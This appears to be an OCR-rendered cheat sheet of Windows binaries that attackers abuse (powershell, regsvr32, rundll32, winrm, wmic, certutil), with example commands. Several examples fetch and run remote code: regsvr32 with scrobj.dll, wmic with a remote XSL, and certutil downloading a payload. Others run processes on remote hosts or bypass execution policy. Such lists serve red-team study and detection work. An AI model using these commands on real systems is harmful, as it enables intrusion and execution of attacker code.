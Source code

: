 ##### powershell.exe

-   Description: The most well known and most useful attacker utility.
    Powershell can be operated in console mode, with commands provided on the
    command line or through passing a ps1 file containing commands.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: powershell -c calc
  Example: powershell -exec bypass -File test.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### regsvr32.exe

-   Description: Command-line tool that registers dll files as command
    components in the registry. Notable for its use to bypass UAC and useful as
    it supports remote DLL retrieval with scrobj.dll. No arguments need to be
    supplied to regsvr32 if the dll exports the function DllRegisterServer.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: regsvr32 /s /n /u /i:[URL] scrobj.dll
  Example: regsvr32 payload.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### rundll32.exe

-   Description: Loads and runs DLLs. Three parameters are typically used, the
    DLL to be executed, the function within the DLL to call and any arguments.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  Example: rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";alert('test');
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### winrm.exe

-   Description: WinRM, or Windows Remote Management provides the ability to
    remotely execute wmi commands. The winrm service is disabled by default but
    can be enabled.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### wmic.exe

-   Description: Command line tool for WMI.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: wmic process call create "cmd.exe /c calc"
  Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  Example: wmic os get /format:"https://server/payload.xsl
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### certutil.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: certutil -ping [URL]
  Example: certutil -urlcache -split -f [URL] [output-file]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
